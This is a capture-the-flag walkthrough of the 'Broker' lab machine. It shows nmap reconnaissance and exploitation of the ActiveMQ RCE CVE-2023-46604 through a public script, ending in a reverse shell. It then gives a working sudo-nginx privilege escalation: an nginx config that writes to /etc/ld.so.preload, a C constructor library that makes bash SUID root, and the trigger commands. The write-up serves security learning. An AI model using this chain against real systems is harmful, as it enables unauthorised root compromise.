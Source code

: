 # Broker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.39.87 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 02:11 EST
Nmap scan report for 10.129.39.87
Host is up (0.018s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
43739/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Did a detailed scan as well:

```
$ nmap -p 80,1883,5672,8161,43739 -sC -sV --min-rate 3000 10.129.39.87
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 02:12 EST
Nmap scan report for 10.129.39.87
Host is up (0.0068s latency).

PORT      STATE SERVICE    VERSION
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
43739/tcp open  tcpwrapped
```

### ActiveMQ RCE

Port 80 had Apache ActiveMQ running:

![](../../../.gitbook/assets/broker-image.png)

Clicking on the Manage button brings us to the management dashboard:

![](../../../.gitbook/assets/broker-image-1.png)

This box was created to showcase the ActiveMQ RCE exploit (CVE-2023-46604). This vulnerability was given a CVSS rating of 10.0, which is quite rare. Ransomware groups are continuing to use this exploit to target organisations today.

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-46604" %}

{% embed url="https://www.darkreading.com/cyberattacks-data-breaches/attackers-target-max-severity-apache-activemq-bug-to-drop-ransomware" %}

Here's the breakdown of how the vulnerability works and the PoC:

{% embed url="https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis" %}

{% embed url="https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell" %}

This works because of unsafe deserialisation of data within the OpenWire protocol. In short, an attacker needs to connect to port 61616 and send an OpenWire packet with a specific data type (31).

The payload is created as a string of hex characters, and sent to port 61616. It uses a gadget from the Spring framework to load a remote XML file via HTTP, which can be used to spawn a process via `ProcessBuilder.start`.

I used the Python script from the Github repository to exploit it on this machine. The script provides us with a pseudoshell, which works:

![](../../../.gitbook/assets/broker-image-2.png)

From this, I can easily gain a reverse shell. 

![](../../../.gitbook/assets/broker-image-3.png)

## Privilege Escalation

### Sudo Privileges --> Nginx Exploit

The user was allowed to run `nginx` with `sudo`:

```
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

This means I can specify whatever configuration file and run `nginx` with it. This could allow us to read files as `root`, but getting a shell is better.

Here's the resource I used to exploit it:

{% embed url="https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/" %}

The researcher explained this pretty well. So what I did was first create a `nginx.conf` file with the `error_log` variable declared.

```
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Afterwards, start the `nginx` server as `root`.

```
activemq@broker:/tmp$ sudo /usr/sbin/nginx -c /tmp/pe.conf
```

Next, use `curl` to send requests to our port, and there will be errors like so:

```
activemq@broker:/tmp$ curl localhost:1337/tmp/exploit.so
ERROR: ld.so: object '2023/12/09' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '11' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '58' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '25' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1774' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

This ensures that the string containing the path to the library is written to `/etc/ld.so.preload`. Next, write a `exploit.c` file as such:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/priv", 0, 0);
   chmod("/tmp/priv", 04755); 
   unlink("/etc/ld.so.preload");
   printf("[+] done!\n");
}
```

`priv` in this case is just a copy of `bash`, which can be done using `cp /bin/bash /tmp/priv`. What this program does is make it a SUID binary. Compile it using `gcc -fPIC -shared -ldl -o /tmp/exploit.so exploit.c`. There will be a lot of errors, which can be ignored.

Lastly, run any SUID program as `root`, such as `sudo -l` to trigger the exploit and also generate a lot of logs:

```
activemq@broker:/tmp$ sudo -l
ERROR: ld.so: object '2023/12/09' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<TRUNCATED>
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

This causes the library to be executed, creating a SUID `bash` binary for escalation.

![](../../../.gitbook/assets/broker-image-4.png)

Rooted! 

### Additional Notes

This LPE was rather interesting now I know that running `nginx` allows for writing to a file via `error_log`. This exploit works because of the fact that `ld.so.preload` specifies all the ELF shared libraries to be loaded before others, and all it needs is a PATH to be written within it. 

In our case, I wrote `/tmp/exploit.so` to it via causing errors with `curl`. This allowed for the library to be loaded as `root` when running `sudo -l`.

I was wondering if it was possible for users to upload files as `root` with the right `nginx` configurations, and turns out it is:

{% embed url="https://stackoverflow.com/questions/43241067/upload-files-to-nginx" %}

The above uses `dav_methods` to specify that PUT requests can be used, and I can even specify where the file goes. In this case, it seems that writing an `authorized_keys` folder for `root` is an alternate method.